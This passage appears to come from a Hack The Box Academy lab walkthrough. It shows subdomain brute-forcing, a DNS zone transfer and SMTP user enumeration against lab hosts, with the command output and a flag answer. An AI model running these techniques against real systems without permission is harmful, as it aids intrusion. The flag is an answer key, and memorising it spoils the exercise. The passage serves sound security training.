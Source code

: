 Subsequently students need to use `subbrute`:

Code: shell

```shell
python3 subbrute.py inlanefreight.htb -s /opt/useful/SecLists/Discovery/DNS/namelist.txt -r resolvers.txt
```

```
┌─[us-academy-1]─[10.10.14.4]─[htb-ac413848@pwnbox-base]─[~/subbrute]
└──╼ [★]$ python3 subbrute.py inlanefreight.htb -s /opt/useful/SecLists/Discovery/DNS/namelist.txt -r resolvers.txt

Warning: Fewer than 16 resolvers per process, consider adding more nameservers to resolvers.txt.
inlanefreight.htb
helpdesk.inlanefreight.htb
hr.inlanefreight.htb
ns.inlanefreight.htb
```

Students then need to perform a zone transfer and `grep` for the TXT record to find the flag:

Code: shell

```shell
dig axfr hr.inlanefreight.htb @STMIP | grep "TXT"
```

```
┌─[us-academy-1]─[10.10.14.4]─[htb-ac413848@pwnbox-base]─[~/subbrute]
└──╼ [★]$ dig axfr hr.inlanefreight.htb @10.129.137.154 | grep "TXT"

hr.inlanefreight.htb.	604800	IN	TXT	"HTB{LUIHNFAS2871SJK1259991}"
```

Answer: `HTB{LUIHNFAS2871SJK1259991}`

# Attacking Email Services

## Question 1

### "What is the available username for domain inlanefreight.htb in the SMTP server?"

Using "users.list" that can be obtained from the [module's resources](https://academy.hackthebox.com/storage/resources/users.zip), students need to use `smtp-user-enum`:

Code: shell

```shell
smtp-user-enum -M RCPT -U users.list -D inlanefreight.htb -t STMIP
```

```
┌─[us-academy-1]─[10.10.14.4]─[htb-ac413848@pwnbox-base]─[~]
└──╼ [★]$ smtp-user-enum -M RCPT -U users.list -D inlanefreight.htb -t 10.129.203.12

Starting smtp-user-enum v1.2 ( http://pentestmonkey.net/tools/smtp-user-enum )

 ----------------------------------------------------------
|                   Scan Information                       |
 ----------------------------------------------------------

Mode ..................... RCPT
Worker Processes ......... 5
Usernames file ........... users.list
Target count ............. 1
Username count ........... 79
```